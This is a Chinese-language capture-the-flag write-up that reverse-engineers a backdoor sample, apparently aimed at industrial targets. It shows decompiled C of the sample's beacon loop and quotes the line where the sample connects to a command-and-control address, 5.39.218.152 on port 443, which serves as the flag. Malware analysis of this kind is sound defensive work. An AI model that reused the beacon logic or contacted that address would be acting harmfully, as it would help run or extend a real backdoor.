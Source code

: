 # 恶意软件后门分析

:::note

工程师的笔记本上发现了恶意软件，经排查是一款著名针对工业领域的病毒，溯源分析远控样本文件，确认远程C&C连接地址。

flag形式为 `flag{}`

:::

题目提供了`f67b65b9346ee75a26f491b70bf6091b`可执行文件

![img](img/image_20241246-234657.png)

对其进行逆向分析

![img](img/image_20241248-234853.png)

从`start`跟进到`sub_402261`

```c
int sub_402261()
{
    struct _SYSTEMTIME SystemTime; // [esp+0h] [ebp-14h] BYREF
    DWORD dwMilliseconds; // [esp+10h] [ebp-4h] BYREF

    SetLastError(0);
    if ( GetLastError() != 183 )
    {
        dwMilliseconds = 5000;
        SetUnhandledExceptionFilter(TopLevelExceptionFilter);
        if ( !GetSystemMetrics(67) )
        {
            if ( sub_4023A8() )
            {
                while ( 1 )
                {
                    do
                    {
                        Sleep(dwMilliseconds);
                        GetLocalTime(&SystemTime);
                    }
                    while ( SystemTime.wHour >= 0x18u );
                    sub_402174(&dwMilliseconds);
                }
            }
        }
    }
    return 0;
}
```

继续跟进到`sub_402174`

![img](img/image_20241249-234954.png)

其中`v1 = (void *)sub_40204D(L"5.39.218.152", 0x1BBu);`看起来很可疑，跟进分析`sub_40204D`

![img](img/image_20241250-235054.png)

很明显的外联行为，即可确定答案

```flag
flag{5.39.218.152}
```
